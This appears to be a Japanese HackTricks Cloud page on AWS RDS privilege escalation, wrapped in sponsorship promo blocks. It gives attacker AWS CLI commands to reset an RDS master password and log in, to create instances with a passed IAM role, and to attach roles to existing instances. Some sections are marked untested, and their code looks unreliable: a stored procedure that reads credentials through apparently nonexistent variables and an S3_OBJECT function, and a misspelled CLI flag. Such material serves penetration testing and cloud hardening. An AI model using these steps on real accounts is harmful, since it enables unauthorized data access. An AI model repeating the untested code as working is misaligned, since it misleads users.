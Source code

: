 # AWS - RDS特権昇格

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社を宣伝したい**場合や、**PEASSの最新バージョンを見たい**場合、または**HackTricksをPDFでダウンロード**したい場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter**で私をフォローする🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有するには、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>

## RDS - リレーショナルデータベースサービス

RDSについての詳細は次を参照してください：

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

この権限を持つ攻撃者は、**マスターユーザーのパスワードを変更**し、データベース内のログインを変更できます：
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
データベースに**接続する**必要があります（通常、内部ネットワークからのみアクセス可能です）。
{% endhint %}

**潜在的な影響:** データベース内の機密情報を見つけることができます。

### rds-db:connect

[**ドキュメント**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)によると、この権限を持つユーザーはDBインスタンスに接続できます。

### RDSロールのIAM権限の乱用

{% hint style="info" %}
TODO: テスト
{% endhint %}

RDSロールを乱用して他のAWSサービスにアクセスするストアプロシージャを生成することが可能です。例えば、S3バケットを読み取るために使用できます。
```sql
DELIMITER $$
CREATE PROCEDURE get_s3_object(IN bucket_name VARCHAR(255), IN object_key VARCHAR(255))
BEGIN
-- Use the environment variables to set the AWS credentials
SET @aws_access_key_id = @@global.rds_aws_access_key_id;
SET @aws_secret_access_key = @@global.rds_aws_secret_access_key;
SET @aws_session_token = @@global.rds_aws_session_token;

-- Set the S3 bucket and object key
SET @bucket = bucket_name;
SET @key = object_key;

-- Read the object from the S3 bucket
SET @query = CONCAT("SELECT * FROM S3_OBJECT('",
"region=us-west-2;",
"bucket=", @bucket, ";",
"key=", @key, ";",
"access_key_id=", @aws_access_key_id, ";",
"secret_access_key=", @aws_secret_access_key, ";",
"session_token=", @aws_session_token, ";",
"')");

PREPARE stmt FROM @query;
EXECUTE stmt;
DEALLOCATE PREPARE stmt;
END$$
DELIMITER ;
```
S3バケットからオブジェクトを読み取るために、ストアドプロシージャを実行します。
```sql
CALL get_s3_object('my-bucket', 'my-object-key');
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: テスト
{% endhint %}

`rds:CreateDBInstance` と `iam:PassRole` の権限を持つ攻撃者は、**指定されたロールがアタッチされた新しい RDS インスタンスを作成**することができます。攻撃者は、そのインスタンス内の**機密データにアクセス**したり、データを変更する可能性があります。

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**潜在的な影響**: RDSインスタンス内の機密データへのアクセスまたは許可されていないデータの変更。

### `rds:AddRoleToDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: テスト
{% endhint %}

`rds:AddRoleToDBInstance`と`iam:PassRole`の権限を持つ攻撃者は、**指定されたロールを既存のRDSインスタンスに追加**することができます。これにより、攻撃者はインスタンス内の**機密データにアクセス**したり、データを変更することができる可能性があります。

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**潜在的な影響**: RDSインスタンス内の機密データへのアクセスまたは許可されていないデータの変更。

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* もしもあなたの**会社をHackTricksで宣伝したい**場合や、**最新版のPEASSを入手したい**場合や、HackTricksをPDFでダウンロードしたい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見しましょう
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローしてください 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **HackTricks**と**HackTricks Cloud**のgithubリポジトリにPRを提出することで、あなたのハッキングトリックを共有してください。

</details>
